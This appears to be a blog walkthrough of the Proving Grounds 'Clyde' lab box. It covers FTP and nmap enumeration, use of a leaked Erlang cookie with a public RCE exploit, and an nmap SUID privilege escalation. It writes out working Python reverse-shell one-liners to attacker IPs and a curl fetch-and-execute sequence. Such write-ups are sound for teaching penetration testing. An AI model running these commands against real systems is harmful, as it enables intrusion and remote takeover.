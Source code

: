 ```yaml
---
layout: post
title: Proving Grounds - Clyde (Hard)
---
```


# Introduction 

This is a Hard Linux box on Proving Grounds.

# Enumeration

Immediately when we begin to enumerate this box we can see a massive amount of data is available to us on an FTP server. It looks like the `/bin/` directory is being served over FTP.

```bash
$ sudo nmap --min-rate 100 -sV -sC -T4  192.168.216.68 -oA nmap/versions                              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 12:13 EDT
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 12:14 (0:00:08 remaining)
Nmap scan report for ip-192-168-216-68.eu-west-1.compute.internal (192.168.216.68)
Host is up (0.022s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 PackageKit
| drwxr-xr-x    5 ftp      ftp          4096 Apr 24  2020 apache2
| drwxr-xr-x    5 ftp      ftp          4096 Sep 21  2020 apt
| drwxr-xr-x    2 ftp      ftp          4096 Apr 22  2020 dbus
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 dhcp
| drwxr-xr-x    7 ftp      ftp          4096 Sep 21  2020 dpkg
| drwxr-xr-x    2 ftp      ftp          4096 Apr 20  2020 git
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 initramfs-tools
| drwxr-xr-x    2 ftp      ftp          4096 May 07  2020 logrotate
| drwxr-xr-x    2 ftp      ftp          4096 Sep 08  2019 misc
| drwxr-xr-x    5 ftp      ftp          4096 Feb 15 10:01 mysql
| drwxr-xr-x    2 ftp      ftp          4096 Jul 13  2017 os-prober
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 pam
| drwxr-xr-x    4 ftp      ftp          4096 Apr 24  2020 php
| drwx------    3 ftp      ftp          4096 Apr 24  2020 polkit-1
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 python
| drwxr-xr-x    3 ftp      ftp          4096 May 08  2020 rabbitmq
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 sgml-base
| drwxr-xr-x    6 ftp      ftp          4096 Apr 22  2020 systemd
| drwxr-xr-x    3 ftp      ftp          4096 Apr 30  2020 ucf
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.49.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 df:63:99:a4:cf:79:00:c8:b1:d6:67:97:81:4d:4f:af (RSA)
|   256 bd:9b:35:41:34:a2:5a:4c:fa:1b:9f:f1:36:f3:6a:fd (ECDSA)
|_  256 db:96:ee:8d:29:2b:f4:a3:58:b2:fb:c1:ac:65:92:48 (ED25519)
53/tcp    closed domain
80/tcp    open   http    Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.25 (Debian)
65000/tcp open   unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.24 seconds
```

Running a further Nmap scan over the full port range we see the RabbitMQ service is running, alongside the Erlang Port Mapper Daemon. On port 15672 the management portal for RabbitMQ is available.

```bash
$ sudo nmap --min-rate 100 -p- -T4  192.168.216.68 -oA nmap/all  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 12:14 EDT
Nmap scan report for ip-192-168-216-68.eu-west-1.compute.internal (192.168.216.68)
Host is up (0.023s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
4369/tcp  open   epmd
15672/tcp open   unknown
65000/tcp open   unknown

PORT      STATE  SERVICE    VERSION
4369/tcp  open   epmd       Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 65000
15672/tcp open   http       Cowboy httpd
|_http-title: RabbitMQ Management
|_http-server-header: Cowboy

```

## Webserver

As mentioned on port 15672 we have RabbitMQ.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426121946.png)

Trying default creds `guest:guest` unfortunately does not work (worth a try!).

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426122049.png)

Since we have anonymous FTP access, we can try pulling the `rabbitmq` directory there to search for any config files. These may contain credentials.

```bash
wget -r ftp://anonymous@192.168.216.68/rabbitmq
```

Searching the strings of rabbitmq data files, I found some possible users `seth` and `clyde`. But bruteforcing is not possible as it appears there is an account lock out feature.

After searching for a long time I found an erlang cookie in the rabbitmq directory (always remember to check for hidden files!)

```bash
┌──(kali㉿pm-kali)-[~/…/provingGrounds/clyde/192.168.216.68/rabbitmq]
└─$ ls -la             
total 16
drwxr-xr-x  3 kali kali 4096 Apr 26 12:23 .
drwxr-xr-x 13 kali kali 4096 Apr 26 12:47 ..
-rw-r--r--  1 kali kali   20 Apr 24  2020 .erlang.cookie
drwxr-xr-x  6 kali kali 4096 Apr 26 12:24 mnesia
                                                                                                                          
┌──(kali㉿pm-kali)-[~/…/provingGrounds/clyde/192.168.216.68/rabbitmq]
└─$ cat .erlang.cookie 
JPCGJCAEWHPKKPBXBYYB
```

This can be used to gain RCE via Erlang Port Mapper Daemon. A Python exploit exists for this - [49418 - Erlang Cookie - Remote Code Execution](https://www.exploit-db.com/exploits/49418)

# Initial Access

> Erlang allows distributed Erlang instances to connect and remotely execute commands.
> Nodes are permitted to connect to eachother if they share an authentication cookie,
> this cookie is commonly called ".erlang.cookie"

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426132539.png)


This was awkward to get a reverse shell. Had to put a Python revshell for port 21 in a bash script - curl chmod execute, separately.

```bash
$ cat test2.sh                        
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.216",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sending `curl` first:

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
CMD = "curl http://192.168.49.216/test2.sh -o test2.sh"
```

Changing mode and executing separately:

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
CMD = "chmod +x test2.sh; ./test2.sh"
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426134224.png)

Alternately we could've sent the reverse shell on its own and escaped the quotes e.g.

```bash
CMD = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.118.6\",15672));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

# Privilege Escalation

Nmap has a SUID bit set but there is no `sudo` on this box...

Looked around a lot but tried the Limited SUID technique to GTFObins and it does vaguely work. Through this we could probably spawn a full reverse shell. But this is enough to grab the root hash.

```bash
echo 'os.execute("/bin/sh")' > test 
nmap --script=test
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020230119000719.png)
